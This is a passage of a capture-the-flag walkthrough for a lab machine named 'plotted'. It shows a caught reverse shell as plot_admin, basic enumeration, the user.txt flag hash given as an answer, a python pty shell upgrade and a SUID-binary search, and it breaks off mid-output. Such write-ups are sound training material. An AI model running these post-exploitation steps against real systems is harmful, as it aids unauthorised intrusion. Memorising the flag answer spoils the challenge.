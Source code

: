 ```
Connection from 10.10.159.7:45996
bash: cannot set terminal process group (28899): Inappropriate ioctl for device
bash: no job control in this shell
plot_admin@plotted:~$
```
```
plot_admin@plotted:~$ id
id
uid=1001(plot_admin) gid=1001(plot_admin) groups=1001(plot_admin)
plot_admin@plotted:~$ ls -la
ls -la
total 32
drwxr-xr-x  4 plot_admin plot_admin 4096 Oct 28 10:16 .
drwxr-xr-x  4 root       root       4096 Oct 28 07:56 ..
lrwxrwxrwx  1 root       root          9 Oct 28 10:09 .bash_history -> /dev/null
-rw-r--r--  1 plot_admin plot_admin  220 Oct 28 07:56 .bash_logout
-rw-r--r--  1 plot_admin plot_admin 3771 Oct 28 07:56 .bashrc
drwxrwxr-x  3 plot_admin plot_admin 4096 Oct 28 08:34 .local
-rw-r--r--  1 plot_admin plot_admin  807 Oct 28 07:56 .profile
drwxrwx--- 14 plot_admin plot_admin 4096 Oct 28 07:25 tms_backup
-rw-rw----  1 plot_admin plot_admin   33 Oct 28 09:55 user.txt
plot_admin@plotted:~$ cat user.txt
cat user.txt
77927510d5edacea1f9e86602f1fbadb
```
**Question**
#### user.txt
**Answer** 
#### 77927510d5edacea1f9e86602f1fbadb
---
### Privilege escalation to root
Let's upgrade our shell to be more confortable
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
Now, let's try something we can use with the appropriate permission defined
```
find / -type f -perm /4000 -ls 2>/dev/null
```
```
 56     43 -rwsr-xr-x   1 root     root        43088 Sep 16  2020 /snap/core18/2284/bin/mount
       65     63 -rwsr-xr-x   1 root     root        64424 Jun 28  2019 /snap/core18/2284/bin/ping
       81     44 -rwsr-xr-x   1 root     root        44664 Mar 22  2019 /snap/core18/2284/bin/su
       99     27 -rwsr-xr-x   1 root     root        26696 Sep 16  2020 /snap/core18/2284/bin/umount
     1720     75 -rwsr-xr-x   1 root     root        76496 Mar 22  2019 /snap/core18/2284/usr/bin/chfn
     1722     44 -rwsr-xr-x   1 root     root        44528 Mar 22  2019 /snap/core18/2284/usr/bin/chsh
     1775     75 -rwsr-xr-x   1 root     root        75824 Mar 22  2019 /snap/core18/2284/usr/bin/gpasswd
     1839     40 -rwsr-xr-x   1 root     root        40344 Mar 22  2019 /snap/core18/2284/usr/bin/newgrp
     1852     59 -rwsr-xr-x   1 root     root        59640 Mar 22  2019 /snap/core18/2284/usr/bin/passwd
     1943    146 -rwsr-xr-x   1 root     root       149080 Jan 19  2021 /snap/core18/2284/usr/bin/sudo
     2031     42 -rwsr-xr--   1 root     systemd-resolve    42992 Jun 11  2020 /snap/core18/2284/usr/lib/dbus-1.0/dbus-daemon-launch-helper
     2341    427 -rwsr-xr-x   1 root     root              436552 Aug 11  2021 /snap/core18/2284/usr/lib/openssh/ssh-keysign
       56     43 -rwsr-xr-x   1 root     root               43088 Sep 16  2020 /snap/core18/2246/bin/mount
```